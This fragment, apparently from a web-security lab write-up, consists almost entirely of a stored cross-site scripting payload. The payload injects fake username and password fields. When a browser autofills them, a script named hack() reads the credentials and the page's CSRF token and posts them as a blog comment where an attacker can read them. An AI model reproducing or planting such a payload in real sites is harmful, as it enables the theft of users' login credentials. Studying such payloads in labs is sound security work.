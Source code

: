 <input type=text name="username">
<input type=password name="password" onchange="hack()">
<script>
function hack() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;
  
  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 3);
  data.append('comment', `${username}:${password}`);
  data.append('name', 'admin');
  data.append('email', 'victim@gmail.com');
  data.append('website', 'http://localhost:80');
  
  fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
  });
}
</script>
